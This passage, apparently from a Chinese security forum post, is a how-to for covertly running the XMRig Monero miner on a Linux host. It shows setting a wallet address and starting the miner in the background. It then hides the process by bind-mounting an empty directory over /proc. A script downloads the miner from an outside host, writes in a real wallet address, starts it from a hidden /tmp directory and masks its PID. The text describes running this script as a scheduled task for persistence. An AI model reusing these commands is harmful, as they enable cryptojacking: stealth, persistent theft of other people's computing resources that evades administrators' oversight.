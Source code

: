 输入：`vim config.json` 打开 config. Json 文件，将 YOUR\_WALLET\_ADDRESS 修改成你的钱包地址

```php
"user": "YOUR_WALLET_ADDRESS",
"pass": "x",
```

运行

```php
./xmrig

#后台启动
nohup ./xmrig &
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-b926a3e593da364adab9eedf6a996921113935af.png)

进程隐藏
----

### 目录挂载

未隐藏之前

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-14367e33e5cae509f7a8eb27eb874424c2e24c82.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-db9efb925879b55062392c5d32ca727674852919.png)  
目录挂载

```php
mkdir /tmp/.k/null

mount --bind /tmp/.k/null /proc

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-bfd9409e00139a1a45e8e421e973e164f2e2f9fe.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-fca4132b278f1a2a8fbfb41a8a77f454c95898fa.png)

### 计划任务

添加计划任务使其可以开机自启，删除后恢复  
`1.sh`

```php
#!/bin/bash

if [ ! -f "/tmp/.k/xmrig" ]; then
    mkdir /tmp/.k
    cd /tmp/.k
    wget https://download.c3pool.org/xmrig_setup/raw/master/xmrig.tar.gz
    tar -zxvf xmrig.tar.gz
    sed -i 's/YOUR_WALLET_ADDRESS/45cuh6v7YDkdL9gTEkfffQ1rfoA6NitH9huwWUVjZnqCGXB9TrPGPK2D3UgLwMXtf1SCkNwuDNFZZWzCkgnesarBK9MDkJh/' /tmp/.k/config.json
    mkdir /tmp/.k/null
    nohup /tmp/.k/xmrig &
fi

sleep 3

if pgrep -x "xmrig" 
then
    pid=$(pgrep -x xmrig)
    mount --bind /tmp/.k/null /proc/$pid
fi
```